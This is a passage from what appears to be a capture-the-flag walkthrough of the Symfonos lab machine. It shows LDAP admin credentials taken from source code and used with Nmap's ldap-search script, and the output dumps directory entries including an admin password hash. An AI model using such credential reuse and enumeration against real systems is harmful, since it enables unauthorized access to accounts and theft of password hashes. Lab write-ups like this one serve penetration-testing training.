 The source code presents us with ldap username and password.

#### Nmap ldap-search Script

lifesfun:/var/www/html\# nmap 192.168.211.150 -p 389 --script ldap-search
--script-args 'ldap.username="cn=admin,dc=symfonos,dc=local",
ldap.password="qMDdyZh3cT6eeAWD"'

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-26 21:01 EST

Nmap scan report for 192.168.211.150

Host is up (0.00038s latency).

PORT STATE SERVICE

389/tcp open ldap

\| ldap-search:

\| Context: dc=symfonos,dc=local

\| dn: dc=symfonos,dc=local

\| objectClass: top

\| objectClass: dcObject

\| objectClass: organization

\| o: symfonos

\| dc: symfonos

\| dn: cn=admin,dc=symfonos,dc=local

\| objectClass: simpleSecurityObject

\| objectClass: organizationalRole

\| cn: admin

\| description: LDAP administrator

\| userPassword: {SSHA}UWYxvuhA0bWsjfr2bhtxQbapr9eSgKVm

\| dn: uid=zeus,dc=symfonos,dc=local

\| uid: zeus

\| cn: zeus

\| sn: 3

\| objectClass: top

\| objectClass: posixAccount

\| objectClass: inetOrgPerson

\| loginShell: /bin/bash

\| homeDirectory: /home/zeus

\| uidNumber: 14583102

